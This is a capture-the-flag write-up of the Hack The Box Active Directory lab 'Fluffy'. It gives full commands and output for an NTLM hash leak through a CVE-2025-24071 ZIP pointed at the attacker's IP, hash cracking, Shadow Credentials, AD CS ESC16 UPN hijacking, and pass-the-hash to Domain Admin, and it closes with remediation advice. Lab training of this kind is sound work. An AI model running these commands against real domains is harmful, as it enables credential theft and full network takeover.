





HTB CPTS Track: Fluffy (easy)
Assumed-breach HTB box: NTLM coercion, shadow credentials, and AD CS ESC16 chained to Domain Admin.
contents
Fluffy is an assumed-breach Active Directory box: you start with a low-privileged domain account and work up to Domain Admin. The path chains four AD techniques that show up constantly in real engagements:
CVE-2025-24071, a.library-msfile dropped in a writable share coerces a user into leaking their NetNTLMv2 hash.- Shadow Credentials (
msDS-KeyCredentialLink), abuse write access over an account to authenticate as it via certificates, no password needed. - AD CS ESC16, the CA globally disables the SID security extension, so certificates get mapped to accounts by the (mutable) UPN instead of the (immutable) SID.
- A UPN-hijack tying it together to mint a certificate that authenticates as
Administrator.
Assumed-breach start, credentials provided:
j.fleischman / J0elTHEM4n1990!
Enumeration¶
Nmap¶
sudo nmap -sC -sV -p- 10.129.65.0 -T5
PORT STATE SERVICE VERSION
53/tcp open domain Simple DNS Plus
88/tcp open kerberos-sec Microsoft Windows Kerberos (server time: 2026-09-22 04:14:23Z)
139/tcp open netbios-ssn Microsoft Windows netbios-ssn
389/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: fluffy.htb, Site: Default-First-Site-Name)
445/tcp open microsoft-ds?
464/tcp open kpasswd5?
593/tcp open ncacn_http Microsoft Windows RPC over HTTP 1.0
636/tcp open ssl/ldap Microsoft Windows Active Directory LDAP
3268/tcp open ldap Microsoft Windows Active Directory LDAP
5985/tcp open http Microsoft HTTPAPI httpd 2.0 # WinRM
9389/tcp open mc-nmf .NET Message Framing
Service Info: Host: DC01; OS: Windows
The classic domain-controller fingerprint: DNS (53), Kerberos (88), LDAP (389/636/3268), SMB (445), WinRM (5985). The host is DC01 in the fluffy.htb domain. Note the +7h00m00s clock skew nmap reports, Kerberos is time-sensitive, so I sync to the DC before any Kerberos auth later (sudo ntpdate DC01.fluffy.htb).
Add the host to /etc/hosts:
echo '10.129.65.0 fluffy.htb DC01 DC01.fluffy.htb' | sudo tee -a /etc/hosts
SMB¶
With the provided creds, enumerate shares:
nxc smb 10.129.65.0 -u j.fleischman -p 'J0elTHEM4n1990!' --shares
Share Permissions Remark
----- ----------- ------
ADMIN$ Remote Admin
C$ Default share
IPC$ READ Remote IPC
IT READ,WRITE
NETLOGON READ Logon server share
SYSVOL READ Logon server share
READ,WRITE on a non-default IT share is the lead, a writable share is a place to plant something. Contents:
smbclient -U j.fleischman \\\\10.129.65.0\\IT
smb: \> dir
Everything-1.4.1.1026.x64 D
Everything-1.4.1.1026.x64.zip A 1827464
KeePass-2.58 D
KeePass-2.58.zip A 3225346
Upgrade_Notice.pdf A 169963
Upgrade_Notice.pdf is a patch announcement:

It lists recently disclosed CVEs the environment is (supposedly) behind on. I broke the list down using a clanker, to find one that fits what I have, a writable share plus users who browse it:

CVE-2025-24071 , Windows File Explorer spoofing / NTLM hash leak stands out. Public PoC: exploit-db 52310.
Why this works: Windows Explorer auto-initiates an SMB authentication request when a
.library-msfile is extracted from a ZIP. Point that request at an attacker-controlled SMB server and the victim's machine hands over their NetNTLMv2 hash, no click beyond extraction. Drop the malicious ZIP in a share a user will open, and you harvest their hash.
Initial Foothold: CVE-2025-24071¶
Generate the malicious .library-ms ZIP, pointing it at my VPN IP:
python3 52310.py -i 10.10.15.141 -o cool.library-ms
[+] Created ZIP: cool.library-ms/malicious.zip
Start Responder to catch the incoming authentication:
sudo responder -I tun0
Upload the ZIP to the writable IT share and wait for a user to browse it:
smbclient -U j.fleischman \\\\10.129.65.0\\IT
smb: \> put malicious.zip
A user (p.agila) triggers it, and Responder captures the NetNTLMv2 hash:
[SMB] NTLMv2-SSP Username : FLUFFY\p.agila
[SMB] NTLMv2-SSP Hash : p.agila::FLUFFY:92d0f5e748afe59b:D02D1C31DD662E69C28A63D90C1AB364:0101...
Crack it offline with hashcat mode 5600 (NetNTLMv2):
hashcat -m 5600 'hash(p.agila)' /usr/share/wordlists/seclists/Passwords/Leaked-Databases/rockyou.txt
P.AGILA::FLUFFY:...:prometheusx-303
New creds: p.agila / prometheusx-303.
Domain Recon: BloodHound¶
Collect with the CE Python ingestor using the new account:
pip install bloodhound-ce
bloodhound-ce-python -c all -d fluffy.htb -u p.agila -p prometheusx-303 -ns 10.129.65.0 -dc DC01.fluffy.htb --zip
Reviewing outbound rights, p.agila can write to the SERVICE ACCOUNTS group, and membership in it is the interesting pivot, it chains toward accounts in Remote Management Users:

Add p.agila to SERVICE ACCOUNTS:
net rpc group addmem "SERVICE ACCOUNTS" "p.agila" -U "FLUFFY.HTB"/"p.agila"%"prometheusx-303" -S "DC01.fluffy.htb"
User: Shadow Credentials on winrm_svc¶
SERVICE ACCOUNTS grants write access over the service accounts, including winrm_svc (a member of Remote Management Users, so owning it = a WinRM shell). Rather than reset its password (noisy, and breaks the account), I use Shadow Credentials.
Why Shadow Credentials works: with write access over an account's
msDS-KeyCredentialLinkattribute, you add your own certificate as an alternate credential. That attribute is trusted for PKINIT (certificate-based Kerberos pre-auth, the Windows Hello for Business mechanism), so you can then request a TGT as that account with your private key, no password, no reset.
Plant the shadow credential with pywhisker:
python3 pywhisker.py -d fluffy.htb -u p.agila -p prometheusx-303 --target winrm_svc --action add
[*] Target user found: CN=winrm service,CN=Users,DC=fluffy,DC=htb
[+] Updated the msDS-KeyCredentialLink attribute of the target object
[i] Passwort für PFX: L7BnX1pyVibPNOvPV3zN
[+] Saved PFX (#PKCS12) certificate & key at path: ZI3EQ3U7.pfx
Exchange the certificate for a TGT via PKINIT:
git clone https://github.com/dirkjanm/PKINITtools
python gettgtpkinit.py -cert-pfx ZI3EQ3U7.pfx -pfx-pass 'L7BnX1pyVibPNOvPV3zN' -dc-ip 10.129.65.0 fluffy.htb/winrm_svc winrm_svc.ccache
[*] Saved TGT to file
Evil-WinRM authenticates with Kerberos, which needs a krb5.conf pointing at the realm's KDC, without it you get Cannot find KDC for realm 'FLUFFY.HTB':
# /etc/krb5.conf
[libdefaults]
default_realm = FLUFFY.HTB
dns_lookup_kdc = false
dns_lookup_realm = false
[realms]
FLUFFY.HTB = {
kdc = dc01.fluffy.htb
admin_server = dc01.fluffy.htb
}
[domain_realm]
.fluffy.htb = FLUFFY.HTB
fluffy.htb = FLUFFY.HTB
Point Kerberos at the ticket and connect (FQDN required for Kerberos SPN matching):
export KRB5CCNAME=~/Fluffy/winrm_svc.ccache
evil-winrm -i dc01.fluffy.htb -r FLUFFY.HTB
*Evil-WinRM* PS C:\Users\winrm_svc\Desktop> type user.txt
user.txt captured.
Root: Chaining GenericWrite + AD CS ESC16¶
Back in BloodHound, winrm_svc has two properties that combine into a full escalation:
WINRM_SVChasGenericWriteoverCA_SVC:

CA_SVCis a member ofCert Publishers:

These are the two halves of ESC16. First, take over ca_svc the same way, shadow credentials via the GenericWrite:
python pywhisker.py --dc-ip 10.129.65.0 -d fluffy.htb -u winrm_svc -k --no-pass --target ca_svc --action add
[*] Target user found: CN=certificate authority service,CN=Users,DC=fluffy,DC=htb
[+] Updated the msDS-KeyCredentialLink attribute of the target object
[i] Passwort für PFX: FYmUgVmkpJRCvQqRPUkS
python gettgtpkinit.py -cert-pfx nIDb5fO3.pfx -pfx-pass 'FYmUgVmkpJRCvQqRPUkS' -dc-ip 10.129.65.0 fluffy.htb/ca_svc ca_svc.ccache
Enumerate AD CS as ca_svc:
export KRB5CCNAME=~/Fluffy/ca_svc.ccache
certipy find -k -no-pass -dc-ip 10.129.65.0 -target dc01.fluffy.htb -vulnerable -stdout
CA Name : fluffy-DC01-CA
Disabled Extensions : 1.3.6.1.4.1.311.25.2
...
Enroll : FLUFFY.HTB\Cert Publishers
[!] Vulnerabilities
ESC16 : Security Extension is disabled.
Two things line up in that output:
- Disabled Extensions : 1.3.6.1.4.1.311.25.2, the CA has globally disabled szOID_NTDS_CA_SECURITY_EXT. That extension embeds the requester's SID into the certificate for strong mapping. With it gone, the DC falls back to weak mapping by UPN, and a UPN is just a mutable string attribute.
- Enroll : FLUFFY.HTB\Cert Publishers, only Cert Publishers (and admins) can request certificates. ca_svc is in that group; winrm_svc is not. So ca_svc must be the enrollee.
The ESC16 exploitation¶
The plan writes itself from those two facts:
- Enrollee = ca_svc (it has enrollment rights via Cert Publishers).
- Writer = winrm_svc (it has GenericWrite over ca_svc, which includes the userPrincipalName attribute).
So I use winrm_svc to set ca_svc's UPN to administrator, enroll a certificate as ca_svc (which now claims to be administrator), and, because the SID extension is disabled, the DC maps the certificate to the real Administrator.
1. Hijack ca_svc's UPN (authenticating as the writer, winrm_svc):
export KRB5CCNAME=~/Fluffy/winrm_svc.ccache
certipy account -u winrm_svc@fluffy.htb -k -no-pass -dc-ip 10.129.65.0 -target DC01.fluffy.htb -user ca_svc -upn administrator update
[*] Successfully updated 'ca_svc'
2. Request a client-auth certificate as ca_svc (its UPN now reads administrator):
export KRB5CCNAME=~/Fluffy/ca_svc.ccache
certipy req -u ca_svc@fluffy.htb -k -no-pass -dc-ip 10.129.65.0 -dc-host DC01.fluffy.htb -ca 'fluffy-DC01-CA' -template User
[*] Got certificate with UPN 'administrator'
[*] Certificate has no object SID
[*] Saving certificate and private key to 'administrator.pfx'
Certificate has no object SID is expected, that is ESC16 in action.
3. Restore ca_svc's UPN, this step is not optional. If ca_svc still owns the UPN administrator, the DC resolves the certificate back to ca_svc. Setting it back means no account owns that UPN, so the DC falls through to the sAMAccountName match, the real built-in Administrator:
export KRB5CCNAME=~/Fluffy/winrm_svc.ccache
certipy account -u winrm_svc@fluffy.htb -k -no-pass -dc-ip 10.129.65.0 -target DC01.fluffy.htb -user ca_svc -upn ca_svc@fluffy.htb update
4. Authenticate with the certificate. The cert's UPN is the bare string administrator (no @domain), which trips Certipy's identity detection, pass -username and -domain explicitly:
certipy auth -pfx administrator.pfx -dc-ip 10.129.65.0 -username administrator -domain fluffy.htb
[*] Got hash for 'administrator@fluffy.htb': aad3b435b51404eeaad3b435b51404ee:8da83a3fa618b6e3a00e93f676c92a6e
Domain Admin's NT hash. Pass-the-hash into a shell on the DC:
evil-winrm -i dc01.fluffy.htb -u administrator -H 8da83a3fa618b6e3a00e93f676c92a6e
*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
root.txt captured. Box owned.
Gotchas Worth Remembering¶
- Kerberos tickets are short-lived. The
.ccacheTGTs from PKINIT last ~10 hours; come back the next day and every Kerberos command fails withKDC_ERR/invalidCredentials. The.pfxfiles are the durable key (certs live ~1 year), just re-rungettgtpkinitto mint fresh tickets. Sync your clock to the DC (ntpdate) if you hit skew errors. - In ESC16, the enrollee needs enrollment rights. I first tried hijacking
winrm_svc's UPN and enrolling as it,CERTSRV_E_ENROLL_DENIED. Onlyca_svc(Cert Publishers) can enroll, so it had to be the enrollee. The account whose UPN you hijack must be the one that can actually request the certificate. - Restore the UPN before you authenticate, or the certificate maps back to your controlled account instead of the target.
- Bare vs full UPN. The cert UPN
administrator(no@domain) needs-username administrator -domain fluffy.htboncertipy auth; with only-domainyou get a name mismatch, with neither you get "identity not found."
Remediation¶
- Re-enable the security extension on the CA (
szOID_NTDS_CA_SECURITY_EXTmust not be in the CA'sDisableExtensionList), and setStrongCertificateBindingEnforcement = 2(Full Enforcement) on the DCs so certificates are mapped by SID, not UPN. - Tighten share ACLs, no
WRITEonITfor standard users, which killed the initial NTLM-leak vector. - Audit
msDS-KeyCredentialLinkwrite access,GenericWrite/GenericAllover accounts enables Shadow Credentials; scope delegated permissions tightly and monitor changes to that attribute. - Patch
CVE-2025-24071.
Reference used for the AD CS chain: https://xbz0n.sh/blog/adcs-complete-attack-reference